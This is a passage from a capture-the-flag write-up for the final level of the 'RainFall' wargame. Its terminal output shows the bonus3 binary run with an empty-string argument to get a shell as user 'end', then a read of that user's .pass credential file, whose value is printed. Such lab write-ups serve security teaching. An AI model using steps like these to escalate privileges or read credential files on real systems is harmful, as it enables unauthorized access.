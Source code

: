 Output:

```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

We successfully got the `end` user password.


The last user `end` have just file named `end` contain:

```
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```

At this point we finished the `rainfall` challenges, maybe see you again on `override` with more hard ones.
